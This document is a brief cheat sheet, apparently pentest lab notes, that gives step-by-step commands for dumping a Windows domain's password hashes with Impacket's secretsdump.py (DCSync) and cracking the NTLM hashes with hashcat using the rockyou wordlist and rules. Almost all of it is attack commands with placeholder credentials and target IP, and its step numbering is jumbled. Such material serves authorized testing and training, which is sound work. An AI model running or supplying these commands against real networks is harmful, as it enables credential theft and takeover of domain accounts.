 ### **USING IMPACKET SECRETSDUMP.PY**

1. Update Package List
    `sudo apt-get update`
2. Install Python3-Pip
    `sudo apt-get install python3-pip`
5. Install Impacket
    `pip3 install impacket`
1. Extract Hashes
    	`secretsdump.py -outputfile inlanefreight_hashes -just-dc EXAMPLE/[USERNAME]:[PASSWORD]@[IP_ADDRESS]`
1. Install Hashcat
	`sudo apt-get install hashcat`
3.  Crack NTLM Hashes
	`hashcat -m 1000 -a 0 example_hashes.ntds /usr/share/wordlists/rockyou.txt`
	`hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`